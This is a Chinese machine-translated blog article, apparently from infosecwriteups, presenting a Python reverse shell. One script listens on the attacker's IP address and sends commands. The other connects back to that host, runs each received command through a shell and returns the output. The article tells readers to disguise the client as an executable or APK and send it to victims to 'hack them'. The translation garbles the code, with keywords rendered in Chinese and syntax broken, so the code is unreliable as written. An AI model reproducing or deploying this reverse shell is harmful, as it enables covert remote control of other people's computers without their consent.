

# 用于攻击性安全攻击的 Python 脚本

> 原文：<https://infosecwriteups.com/python-script-for-offensive-security-attack-627b06b00463?source=collection_archive---------2----------------------->

朋友们好，在这里我将讨论一个用于攻击 windows 7 及之前版本的 python 脚本，其安全性与此类似。

首先，您必须为您的设备创建一个脚本，并将您的 IP 地址作为主机设备。同样，您将导入套接字和子流程。除此之外，您还将创建一个名为 connect 的函数或您选择的任何函数。并为您的设备创建一个子进程 shell 引用。

导入套接字
def connect():
s = socket . socket()
s . bind((“IP 地址”，端口))#可能的端口是 8080，因为它在 HTML 上工作。
s.listen(1)
conn，addr = s . accept()
print("+we get a connectin from "，addr)
while True:
command = input(" Shell>"
if ' exit ' in command:
conn . send(' exit ')。encode())
conn . close()
break
else:
conn . send(command . encode())
print(conn . recv(1024)。decode()
def main():
connect()
main()

现在，既然我们都有了完美的连接功能，我们将不得不编写一个脚本发送到您的客户端设备，或者我会说是您试图捕获实例的设备。同样，你将把代码对你的客户端连接到你的设备。

" " "
创建于 2021 年 4 月 22 日星期四 12:03:04

[@作者](http://twitter.com/author):沙希
" " "

导入套接字
导入子进程
def connect():
s = socket . socket()
s . connect(('主机 IP '，端口))
while True:
command = s . recv(1024)
if ' exit ' in command . decode():
s . close()
break
else:
CMD =子进程。Popen(command.decode()，shell=True，stdout=subprocess。管道，stderr =子进程。管道，stdin =子进程。管道)
s . send(cmd . stdout . read())
s . send(cmd . stderr . read())
def main():
connect()

main()

你可以创建这个脚本到可执行文件或任何文件选择，如 apk。然后把这个发送给你的客户来获取他们的外壳。或者更简单地说，黑掉它们。